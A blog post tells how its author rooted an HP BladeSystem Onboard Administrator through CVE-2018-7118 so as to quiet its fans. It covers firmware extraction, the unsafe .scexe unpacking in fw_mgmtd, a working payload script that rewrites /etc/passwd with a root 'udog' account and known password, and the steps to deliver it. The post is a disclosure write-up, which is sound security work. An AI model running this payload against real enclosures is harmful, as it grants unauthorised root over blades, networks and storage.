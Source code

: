 +++
title = "CVE-2018-7118 - Rooting your HP BladeSystem"
date = 2021-09-15

[taxonomies]
tags = ["bladesystem", "homelab", "security"]
+++

## Because it's [far too loud](https://youtu.be/SR2gjyeXbow?t=69)
#### (What, you had a nefarious reason to hack it? I just wanted to sleep.)

The HP BladeSystem is a now fairly dated blade enclosure.  
I used to run one in my bedroom - someone told me I should try keeping the cloud closer to home - and sleeping wearing ear defenders gets old after a while.  
What to do? There's no way to configure the fan curve and they can hit 18,000 RPM.


## Enter [CVE-2018-7118](https://nvd.nist.gov/vuln/detail/CVE-2018-7118)
### Let's look at the firmware

The firmware for the bladesystem enclosure manager is available online. This vulnerability requires OA firmware <= 4.80.

```bash
$ sha256sum hpoa480.bin
12809d4f96198b8c23480edf4b31c756dd58260b5d319d9becd7eb5a6f9b854f *hpoa480.bin
$ binwalk hpoa480.bin

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
213           0xD5            uImage header, header size: 64 bytes, header CRC: 0x559534C9, created: 2017-12-13 11:17:17, image size: 1522926 bytes, Data Address: 0x0, Entry Point: 0x0, data CRC: 0x3A7352C0, OS: Linux, CPU: PowerPC, image type: OS Kernel Image, compression type: gzip, image name: "Linux-2.6.17.9-udog"
277           0x115           gzip compressed data, maximum compression, from Unix, last modified: 2017-12-13 11:17:16
1523203       0x173E03        uImage header, header size: 64 bytes, header CRC: 0x9F09FD6A, created: 2017-12-13 11:10:30, image size: 3692025 bytes, Data Address: 0x0, Entry Point: 0x0, data CRC: 0x80788EF4, OS: Linux, CPU: PowerPC, image type: RAMDisk Image, compression type: gzip, image name: ""initrd 171213-1007 build""
1523267       0x173E43        gzip compressed data, maximum compression, has original file name: "udog-initrd", from Unix, last modified: 2017-12-13 11:10:27
5215292       0x4F943C        Squashfs filesystem, big endian, version 2.1, size: 7447206 bytes, 2124 inodes, blocksize: 65536 bytes, created: 2017-12-13 11:10:26
12665972      0xC14474        uImage header, header size: 64 bytes, header CRC: 0x9ECEFB67, created: 2017-12-13 11:24:53, image size: 1532777 bytes, Data Address: 0x0, Entry Point: 0x0, data CRC: 0x3555C9E5, OS: Linux, CPU: PowerPC, image type: OS Kernel Image, compression type: gzip, image name: "Linux-2.6.17.9-udog-440EPX"
12666036      0xC144B4        gzip compressed data, maximum compression, from Unix, last modified: 2017-12-13 11:24:53
14198813      0xD8A81D        Squashfs filesystem, big endian, version 2.1, size: 1111378 bytes, 47 inodes, blocksize: 65536 bytes, created: 2017-12-13 11:10:27
15313456      0xE9AA30        PEM certificate
15315387      0xE9B1BB        PEM certificate
15317046      0xE9B836        PEM certificate
``` 

Use `binwalk -e` on the firmware image to extract the multiple squashfs filesystems' contents.

I already have an idea of where I want to look: I know the firmware upgrade process for the blades involves loading an SPP iso on the onboard administrator and unpacking the firmware from it.  
I had a guess there might be some sort of unsafe extraction along the lines of [zip slip](https://snyk.io/research/zip-slip-vulnerability) - but for an RPM or HP SCEXE format instead - and looked for the code which handles this.

The majority of HP's custom binaries and scripts for the OA can be found under the sbin folder in the first squashfs `squashfs-root\sbin`.
`fw_mgmtd` is responsible for running firmware updates, and runs as root. To try to find more information about `scexe` unpacking, let's `grep` for that.

```bash
$ strings _hpoa480.bin.extracted/squashfs-root/sbin/fw_mgmtd | grep -i scexe
/ramdisk/unpack-scexe.lock
/usr/sbin/unpack-scexe %s >/dev/null 2>&1
Successfully unpacked HPE SCEXE SmartComponents.
HPE SCEXE Components are not found, Searching for RPM Components.
Unable to locate and/or unpack SCEXE/RPM HPE SmartComponents. OA/iLO will not be updated.
```

Looks like it calls `unpack-scexe`, which is a script. Nice! No need to disassemble to work out what this is doing.

```bash
dbg_echo ">>>>>>>>>>Unpacking $2:"
sh $2.scexe --unpack=$2  
rc=$?
rm $2.scexe
if [ $rc -eq 0 ]; then
    dbg_echo "Successfully unpacked $2"
    return $rc
else
    dbg_echo ">>>> Failed to unpack $2.scexe"
    return $rc
fi
```

### The exploit steps

Oh dear. It runs the supplied .scexe file as a script. Let's try replacing the HP supplied update with a shell script of our own choosing.  
The Linux install on this is extremely stripped down, no `passwd` command here.

```bash
#!/bin/sh
#!scexe

_SKIP=347
_INTERFACE_VERSION=scexe-interface-1.03-22
_INSTALLER=flash_ilo4

# the udog user already exists on this system with uid 0 before we touch anything
# the hash here is for the password compaq
# 
echo "udog:pD.WvCQWQJ4Kc:0:0:0,,:/:/bin/sh" > /etc/passwd.new
grep -v -e '^udog:' /etc/passwd >> /etc/passwd.new
mv /etc/passwd.new /etc/passwd
chmod 666 /etc/passwd
chown 1:1 /etc/passwd
exit 1
```

Replace/add it at this path `hp/swpackages/root.scexe`. Put the new SPP ISO somewhere accessible by the OA, either on an HTTP(no S) server or on an ext2 partition on a flash drive plugged into it.  
Use the web UI to start firmware management.  
Wait for it to fail the iLO upgrade step with `Unable to locate and/or unpack SCEXE/RPM HPE SmartComponents. OA/iLO will not be updated.`  
SSH in with username `udog` password `compaq`.

![](and-we're-in.png "Screenshot of an active root shell running on the BladeSystem c3000 OA")



## Now to finally slow down those fans

Patching the thermal management code to use a different fan curve is probably the more correct way of fixing this, but that's a more involved process for another post if I ever run a BladeSystem again.
A simple fix which sets the fan speed every 10 seconds on a loop worked fine for me. The `fan` binary this calls is already provided by HP.

```bash
#!/bin/sh
# slowfan.sh

SPD=40
if [ $# -eq 1 ]; then
	SPD=$1
fi

while true; do
	sleep 10
	# i'm not being paid enough to put a loop here
	fan 1 $SPD
	fan 2 $SPD
	fan 3 $SPD
	fan 4 $SPD
	fan 5 $SPD
	fan 6 $SPD
done
```

A little crude, but functional.

## Responsible Disclosure, HPE, and the Onboard Administrator as a juicy target

HPE don't operate a public bug bounty program, and provided no compensation for reporting this issue.
It is likely there are other security issues with the Onboard Administrator - the very first thing I looked at as a plausible escalation path worked, which doesn't bode well - but don't have much incentive to look into them as I got what I needed and can control the fan speed.
Keep any Onboard Administrator safely isolated from anything less trusted than it as getting root on it means full access to: 

* The blades' iLO
* Whatever is running on those blades
* Any network physically connected to the VirtualConnect switches
* Any storage connected to other types of interconnect modules
* The potential to tamper with the firmware on any inserted device without any audit trail

The particular vulnerability here requires someone to already have access to an account with permissions to trigger firmware upgrades, but it is very plausible that a path starting with anonymous access to here exists.
